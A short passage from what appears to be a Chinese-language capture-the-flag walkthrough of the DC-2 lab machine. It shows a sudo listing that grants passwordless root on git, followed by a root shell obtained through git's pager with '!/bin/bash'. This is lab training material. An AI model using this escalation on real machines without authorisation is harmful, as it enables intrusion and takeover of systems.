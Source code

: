 ```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ 
```

查看sudo列表

```
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

使用git进行提权

```
git help status
```

![image-20220622112518771](../../.gitbook/assets/image-20220622112518771.png)

```
!/bin/bash
```

![image-20220622112535539](../../.gitbook/assets/image-20220622112535539.png)
